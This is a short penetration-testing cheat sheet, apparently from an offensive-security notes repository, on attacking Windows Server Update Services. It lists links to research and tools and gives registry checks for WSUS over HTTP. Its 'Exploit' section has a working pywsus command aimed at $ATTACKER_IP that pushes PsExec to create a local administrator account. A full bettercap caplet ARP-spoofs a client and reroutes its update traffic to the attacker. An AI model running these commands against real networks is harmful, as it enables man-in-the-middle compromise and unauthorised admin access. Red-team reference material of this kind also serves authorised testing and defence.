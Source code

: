 ```yaml
---
description: Windows Server Update Services
---
```


# WSUS

* [https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus)




## WSUS HTTP (MitM)

* [https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Stone-WSUSpect-Compromising-Windows-Enterprise-Via-Windows-Update.pdf)
* [https://github.com/GoSecure/pywsus](https://github.com/GoSecure/pywsus)
* [https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/](https://www.gosecure.net/blog/2020/09/03/wsus-attacks-part-1-introducing-pywsus/)
* [https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks](https://www.thehacker.recipes/systems-and-services/privilege-escalation/windows/wsus-attacks)

Check:

```
PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate\AU /v UseWUServer
      UseWUServer    REG_DWORD    0x1

PS > reg query HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer

HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate /v WUServer
      WUServer    REG_SZ    http://wsus.megacorp.local:8530
```

Exploit:

```
$ python3 pywsus.py --host $ATTACKER_IP --port 8530 --executable /home/snovvcrash/www/PsExec64.exe --command '/accepteula /s cmd.exe /c "net user testuser /add && net localgroup Administrators testuser /add"'
$ sudo ./bettercap --iface $INTERFACE --caplet wsus.cap
```

{% code title="wsus.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Re-route traffic aimed at the WSUS server
set any.proxy.iface $INTERFACE
set any.proxy.protocol TCP
set any.proxy.src_address $WSUS_SERVER_IP
set any.proxy.src_port 8530
set any.proxy.dst_address $ATTACKER_IP
set any.proxy.dst_port 8530

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
any.proxy on
arp.spoof on
net.sniff on
```
{% endcode %}




## WSUS Local Proxy (LPE)

- [https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/](https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/)




## WSUS + LDAPS NTLM Relay

- [https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/](https://www.gosecure.net/blog/2021/11/22/gosecure-investigates-abusing-windows-server-update-services-wsus-to-enable-ntlm-relaying-attacks/)
